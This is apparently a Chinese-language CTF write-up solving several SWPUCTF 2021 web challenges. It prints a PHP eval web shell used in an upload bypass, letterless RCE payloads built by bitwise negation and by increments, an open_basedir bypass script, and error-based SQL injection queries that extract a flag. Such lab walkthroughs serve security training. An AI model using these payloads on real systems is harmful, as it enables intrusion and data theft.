SWPUCTF 2021 新生赛
===

## [SWPUCTF 2021 新生赛]gift_F12

### 代码审计

直接在源码里看见了:



## [SWPUCTF 2021 新生赛]easyupload1.0

打开是一个文件上传界面, 直接传 shell 被拦了

### 文件上传绕过

修改文件头类型就可以绕过了;



连接到终端, 有个 flag.php, 可惜不对:



枚举了一下发现在环境变量里: `cat /proc/self/environ`



## [SWPUCTF 2021 新生赛]easyupload2.0

### 题解

跟上一题类似, 不过传 phtml 就行了:

```php
<script language="php">
    <?=@eval($_POST['shell']);?>
</script>
```

上传成功不过不能执行, 可能是因为 php 版本 >= 7.0 (这种写法在 7.0 后被移除), 直接只传中间这一句就行了:



同样的方法就能找到flag:



## [SWPUCTF 2021 新生赛]hardrce

### 代码审计

```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm']))
{
    $wllm = $_GET['wllm'];
    $blacklist = [' ','\t','\r','\n','\+','\[','\^','\]','\"','\-','\$','\*','\?','\<','\>','\=','\`',];
    foreach ($blacklist as $blackitem)
    {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
        die("LTLT说不能用这些奇奇怪怪的符号哦！");
    }}
if(preg_match('/[a-zA-Z]/is',$wllm))
{
    die("Ra's Al Ghul说不能用字母哦！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
{
    echo "蔡总说：注意审题！！！";
} 
```

直接给出了 RCE 的接口, 其中黑名单过滤了大部分控制字符, 注意: `{` `}` `~` `.` `()` `%` 没过滤, 那么这里应该是无字符 RCE

### 无字符 RCE 构造

```python
import urllib.parse


def generate_payload(cmd: str) -> str:
    # 将字符串逐字节取反 (~)，并转成对应的字节（0-255 范围）
    inverted_bytes = bytes([~ord(c) & 0xFF for c in cmd])
    # 使用 quote_from_bytes 确保不会出现 UTF-8 多字节编码
    encoded = urllib.parse.quote_from_bytes(inverted_bytes)
    # 返回形式 ~payload
    return "~" + encoded


if __name__ == "__main__":
    cmd = "system"
    payload = generate_payload(cmd)
    print("原始命令:", cmd)
    print("生成的 URL payload:", payload)

```

注意 `eval($a)` 这样的语句中, 如果需要 `$a` 是函数名 + 参数的组合, 例如 `system('whoami')` 那么传入参数应该是 `$a=(system)(whoami)`, 这里再分别取反即可, 这种括号分两段的方式也是 php eval 函数解析的特点;

> 别忘了分号;

### 执行

执行成功:



继续:



得到 flag

## [SWPUCTF 2021 新生赛]hardrce_3

### 代码审计

```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['wllm']))
{
    $wllm = $_GET['wllm'];
    $blacklist = [' ','\^','\~','\|'];
    foreach ($blacklist as $blackitem)
    {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
        die("小伙子只会异或和取反？不好意思哦LTLT说不能用！！");
    }}
if(preg_match('/[a-zA-Z0-9]/is',$wllm))
{
    die("Ra'sAlGhul说用字母数字是没有灵魂的！");
}
echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
eval($wllm);
}
else
{
    echo "蔡总说：注意审题！！！";
}
?> 
```

跟刚刚差不多, 是一个显然的 RCE, 这次禁止了 `~` `^`

### 无字符 RCE 构造

总结一下无字符 RCE 的主要构造方式:

- 取反: `~`;
- 异或: `^`;
- 或: `|`;
- 自增: `++`;
- 临时文件: 反引号

那么这里应该是用自增;

### 自增马

用这个 payload:

```
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
```

相当于传入了:

```
eval(@_POST[_]);
```

这样传参实际转移到了 POST 方法中, 而这里是没有 WAF 的;

URL 编码:

```
%24%5F%3D%5B%5D%3B%24%5F%3D%40%22%24%5F%22%3B%24%5F%3D%24%5F%5B%27%21%27%3D%3D%27%40%27%5D%3B%24%5F%5F%5F%3D%24%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%5F%5F%3D%27%5F%27%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%5F%3D%24%5F%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%2B%2B%3B%24%5F%5F%5F%5F%2E%3D%24%5F%5F%3B%24%5F%3D%24%24%5F%5F%5F%5F%3B%24%5F%5F%5F%28%24%5F%5B%5F%5D%29%3B
```

然后在 POST 里插入:

```
_=eval($_POST['xxx'])&xxx
```

传入成功:



用蚁剑连接这个地址, 密码就是 POST:





连上后回显 `ret=127`, 说明极有可能限制了 php 函数; 不过用蚁剑的文件管理功能已经能读到 flag 了



### 突破 disable_function 限制

> 之前这道题里已经遇到过一次: [[SUCTF 2019] easyweb](https://r4x.top/2025/07/20/SUCTF2019-easyweb/#%E7%AA%81%E7%A0%B4-PHP-disable-functions-%E9%99%90%E5%88%B6)

可以直接按照上面这个方法在根目录建一个 bypass.php, 或者也可以在 POST 中加入写文件指令:

```php
# _=
file_put_contents('exploit.php', "<?php
mkdir('test'); 
chdir('test'); 
ini_set('open_basedir','..');
chdir('..'); chdir('..'); chdir('..'); chdir('..');
ini_set('open_basedir','/');
echo file_get_contents('flag');
?>");
# 然后 URL 编码
```

> 再写一遍, 这个利用的原理就是写入一个 exploit.php 文件, 然后将 `open_basedir` 改为 `..`, 注意, 这是一个相对路径, 所以 `chdir('..')` 会一直成功, 直到穿到根目录, 最后 `ini_set('open_basedir','/');` 成功直接把访问范围扩大到根目录。

执行完毕后访问这个 php 文件, 即可读出 flag:



## [SWPUCTF 2021 新生赛]error

### 报错注入

输个引号, 爆出错误, 是 MariaDB:


```sql
-- 爆出库名: XPATH syntax error: '~test_db~'
1' AND updatexml(1 ,concat(0x7e,(SELECT database()),0x7e),1) --; 
```

```sql
-- 爆出表名: XPATH syntax error: '~test_tb,users~'
1' AND updatexml(1 ,concat(0x7e,(SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema='test_db'),0x7e),1) --  
```

```sql
--爆出列名: XPATH syntax error: '~id,flag~'
1' AND updatexml(1 ,concat(0x7e,(SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name='test_tb'),0x7e),1) --  
```

```sql
-- 爆出 flag: 
-- XPATH syntax error: '~NSSCTF{73feb461-21b7-4017-8c10-'
1' AND updatexml(1 ,concat(0x7e,(SELECT (flag) FROM test_tb LIMIT 0,1),0x7e),1) --  
```

说明被截断了:

```sql
-- 分批次爆出 flag: 修改 SUBSTRING 的起点即可
-- XPATH syntax error: '~NSSCTF{73feb461-21b7-401~'
-- XPATH syntax error: '~7-4017-8c10-c258c2eb1026~'
-- XPATH syntax error: '~1026}~'
1' AND updatexml(1,concat(0x7e,SUBSTRING((SELECT flag FROM test_tb LIMIT 0,1),1,24),0x7e),1) --
```

拼起来: `NSSCTF{73feb461-21b7-4017-8c10-c258c2eb1026}`